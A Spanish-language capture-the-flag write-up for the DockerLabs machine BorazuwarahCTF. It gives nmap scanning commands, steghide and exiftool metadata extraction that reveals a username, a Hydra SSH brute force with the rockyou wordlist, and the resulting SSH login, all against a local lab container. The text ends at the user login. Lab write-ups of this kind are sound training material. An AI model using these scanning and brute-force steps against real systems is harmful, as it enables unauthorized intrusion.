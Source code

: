 # BORAZUWARAHCTF
## INDICACIONES PREVIAS
* Sistema operativo: Kali Linux
* Terminal: ZSH Powerlevel10K
* Utilidad mkt definida en la zshrc para la creación automática de directorios nmap, content y scripts.
* Cat aliseado como bat.
## DESPLIEGUE DE MÁQUINA
1. Descargarla desde la plataforma DockerLabs.
2. En mi caso, yo me creo un directorio con el nombre de la máquina para tenerlo todo más organizado, por lo que mediante el comando mv (`mv ~/Downloads/<máquina.zip> ~/Desktop/Máquinas/Dockerlabs/<máquina>`) la moveré de descargas a la nueva ubicación.
3. Una vez hecho esto, la descomprimiremos mediante unzip <máquina.zip> y se nos creará un ejecutable .tar
4. Por último, la desplegaremos mediante sudo bash auto_deploy.sh <máquina.tar> y se nos proporcionará una IP, en mi caso 172.17.0.2.
## EXPLOTACIÓN Y ESCALADA DE PRIVILEGIOS
Primero comprobaremos la conectividad con la máquina. 
```ruby
> ping -c1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=4.45 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 4.447/4.447/4.447/0.000 ms
```

* c1 (count 1) para indicar que solo queremos mandar un paquete ICMP y después termine de enviar paquetes. 

* De aquí podemos observar que: 
  * Se ha enviado un paquete y se ha recibido de vuelta, por lo que hay conectividad con la máquina.
  * Tenemos un ttl = 64, lo que quiere decir que nos encontramos ante un sistema Linux.

Una vez visto que tenemos conectividad comenzaremos con el escaneo de puertos.  Para ello ejecutaremos:
```ruby
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
* Con -p- escaneamos el rango completo de puertos (65535).
* Con --open añadimos que de esos solo nos interesan los abiertos.
* Con -sS seleccionamos que el tipo de escaneo será de tipo SYN Scan. Este se caracteriza por ser rápido y sigiloso puesto que no se completa el three-way handshake.
  * Según la respuesta del puerto, Nmap deduce su estado:
    * SYN/ACK recibido → el puerto está abierto.
    * RST (Reset) recibido → el puerto está cerrado.
    * Sin respuesta o ICMP error → el puerto está filtrado (por firewall).
  * Si el puerto estaba abierto (SYN/ACK), Nmap no completa la conexión: envía un RST para interrumpir el handshake y no dejar un rastro evidente.
* Con --min-rate 5000 indicamos que queremos un envío de 5000 paquetes por segundo.
* Con -vvv (triple verbose) se muestra por consola la información detallada y actualizada al momento.
* Con -n indicaremos que no queremos resolución DNS, trabajaremos directamente con direcciones IP.
* Con -Pn queremos que no se haga ping al host antes de comenzar el escaneo, asumiendo que está activo.
* Por último, con -oG exportamos la evidencia en un archivo con formato grepeable para facilitar su procesamiento en auditorias.

Para simplificarnos el visionado de los puertos abiertos directamente abriremos el archivo *allPorts*.
```ruby
❯ cat allPorts
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: allPorts
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.95 scan initiated Thu Sep 11 12:31:55 2025 as: /usr/lib/nmap/nmap --privileged -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
   2   │ # Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
   3   │ Host: 172.17.0.2 () Status: Up
   4   │ Host: 172.17.0.2 () Ports: 22/open/tcp//ssh///, 80/open/tcp//http///    Ignored State: closed (65533)
   5   │ # Nmap done at Thu Sep 11 12:31:59 2025 -- 1 IP address (1 host up) scanned in 4.03 seconds
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Una vez localizados los puertos abiertos, continuaremos con el escaneo específico de los mismos para ver que servicios y versiones corren por ellos.
```bash
❯ nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

* El parámetro -sCV es una conjunción de los parámetros:
  * -sC: Ejecuta los scripts de Nmap por defecto (Default Scripts) para el host/puerto para detectar vulnerabilidades básicas, información de banners, servicios públicos, etc..
  * -sV: Detecta la versión del servicio que corre en cada puerto abierto.
* Con -oN exportamos la evidencia en un archivo con formato Nmap para dejarlo registrado.

Al igual que antes, para que la visualización de toda la información sea más cómoda, la analizaremos desde el archivo *targeted* que acabamos de generar.
```java
❯ cat targeted -l java
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: targeted
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.95 scan initiated Thu Sep 11 12:34:45 2025 as: /usr/lib/nmap/nmap --privileged -p22,80 -sCV -oN targeted 172.17.0.2
   2   │ Nmap scan report for 172.17.0.2
   3   │ Host is up (0.00s latency).
   4   │ 
   5   │ PORT   STATE SERVICE VERSION
   6   │ 22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
   7   │ | ssh-hostkey: 
   8   │ |   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
   9   │ |_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
  10   │ 80/tcp open  http    Apache httpd 2.4.59 ((Debian))
  11   │ |_http-server-header: Apache/2.4.59 (Debian)
  12   │ |_http-title: Site doesn't have a title (text/html).
  13   │ MAC Address: 02:42:AC:11:00:02 (Unknown)
  14   │ Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  15   │ 
  16   │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  17   │ # Nmap done at Thu Sep 11 12:35:06 2025 -- 1 IP address (1 host up) scanned in 21.46 seconds
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Como podemos observar nos encontramos ante un servicio SSH con una versión actualizada por lo que lo dejaremos para más tarde. Mientras tanto me dirigiré al navegador web para examinar el servicio HTTP.

![Imagen Kinder](https://github.com/JavieRR13/WriteUps/blob/3995070a1ce6446556f883f9c8f6cc7851780fcb/DockerLabs/Muy%20f%C3%A1cil/%20BorazuwarahCTF/Im%C3%A1genes/BorazuwarahCTF_ImagenKinder.png)

Cuando abrimos la página nos encontraremos frente a una imagen de un huevo Kinder. Si miramos el código fuente lo único resaltable es dicha imagen.  Para continuar, probaremos con un poco de esteganografía así que descargaremos la imagen y la analizaremos con la herramienta [steghide](https://github.com/StegHigh/steghide).  Con esta herramienta podremos analizar datos ocultos dentro de la imagen.  
```ruby
❯ steghide extract -sf imagen.jpeg
Anotar salvoconducto: 
anot� los datos extra�dos e/"secreto.txt".
❯ ll
total 24K
-rw-rw-r-- 1 kali kali 19K sep 11 12:51 imagen.jpeg
-rw-rw-r-- 1 kali kali 104 sep 11 13:08 secreto.txt
```

* Con extract indicamos que queremos extraer el archivo oculto (si lo hay).
* Con -sf (stego file) indicamos el archivo que pensamos podría contener datos ocultos.

Vemos que nos ha descargado un archivo llamado *secreto.txt* que estaba oculto en la imagen.
```ruby
❯ cat secreto.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: secreto.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ Sigue buscando, aquí no está to solución
   2   │ aunque te dejo una pista....
   3   │ sigue buscando en la imagen!!!
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Visto que no hemos obtenido mucha información de este fichero, otra opción es hacer uso de la herramienta [ExifTool](https://github.com/exiftool/exiftool) para analizar los metadatos que pueda contener.
```ruby
❯ exiftool imagen.jpeg
ExifTool Version Number         : 13.25
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2025:09:11 12:51:14+02:00
File Access Date/Time           : 2025:09:11 13:08:03+02:00
File Inode Change Date/Time     : 2025:09:11 12:51:14+02:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

Podemos observar que el análisis nos ha reportado un nombre de usuario el cual podría ser válido para el servicio SSH que habíamos visto anteriormente.  Pero, para ello, primero debemos obtener el password.  Para ello haremos uso de fuerza bruta con la herramienta [Hydra](https://github.com/vanhauser-thc/thc-hydra) y el diccionario de [rockyou](https://github.com/topics/rockyou-wordlist).
```ruby
❯ hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt -f ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-11 13:48:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
[STATUS] attack finished for 172.17.0.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-11 13:48:14
```

Con esta información vamos a intentar logaearnos en el servicio SSH y ver si conseguimos acceso a un posible usuario *borazuwarah*.
```ruby
❯ ssh borazuwarah@172.17.0.2
borazuwarah@172.17.0.2's password: 
Linux bf71f7833063 6.12.38+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.38-1kali1 (2025-08-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
borazuwarah@bf71f7833063:~$ whoami
borazuwarah
```
Como era de esperar, estamos dentro del servicio SSH con el usuario *borazuwarah*.  
